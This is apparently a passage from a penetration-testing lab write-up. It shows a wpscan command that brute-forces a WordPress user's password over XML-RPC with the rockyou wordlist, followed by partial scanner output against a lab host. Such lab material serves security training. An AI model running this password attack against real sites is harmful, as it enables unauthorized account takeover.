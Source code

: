 <figure><img src="../../../.gitbook/assets/image (25).png" alt=""><figcaption><p>doug</p></figcaption></figure>

**Perform a login bruteforcing attack against the discovered user. Submit the user's password as the answer.**

```
sudo wpscan --password-attack xmlrpc -t 20 -U doug -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.24
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://blog.inlanefreight.local/ [10.129.179.162]
[+] Started: Wed Jul 12 02:57:27 2023

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.41 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://blog.inlanefreight.local/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://blog.inlanefreight.local/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://blog.inlanefreight.local/wp-content/uploads/
```